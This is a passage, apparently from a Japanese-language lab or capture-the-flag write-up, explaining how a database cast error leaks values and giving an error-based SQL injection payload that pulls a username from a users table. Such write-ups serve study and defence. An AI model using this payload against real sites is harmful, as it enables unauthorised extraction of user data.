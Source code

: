 ![](./images/README_231030_185039.png)

これにより、castしようとしている値が出力されることがわかります。

### Exploit

[Analyze](#analyze-8)結果を利用することで、usersテーブルの探索が可能です。

```sql
' AND CAST((SELECT username from users limit 1) AS int)='1
```

![](./images/README_231030_185211.png)
